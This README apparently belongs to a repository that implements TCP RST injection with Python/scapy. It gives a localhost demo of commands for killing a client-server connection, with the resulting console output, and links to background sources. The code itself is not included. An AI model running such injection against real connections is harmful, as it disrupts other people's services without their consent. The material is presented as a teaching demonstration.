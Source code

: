 This repository contains a python/scapy implementation of the TCP RST injection showcased in the included c file. 

Howto:
 $ indicates command to be executed
 > indicates output on the console

start the server
$ python server.py
> TCP Server binding to port 5000

start the client
$ python client.py

record the port number the server reports (47413 in the running example)
> I got a connection from 127.0.0.1:47413

start the injection
$ python tcprst.py -D 127.0.0.1 -d 5000 -S 127.0.0.1 -s 47413

wait until the server exits with the a message:
> Traceback (most recent call last):
>   File "server.py", line 15, in <module>
>     data = client_socket.recv(512)
> socket.error: [Errno 104] Connection reset by peer

done!

More info on TCP/RST injection:
http://kerneltrap.org/node/3072
http://www.blackhatacademy.org/security101/TCP-RST_Injection

Source of the c file: 
http://packetstormsecurity.org/files/38708/tcprst.c.html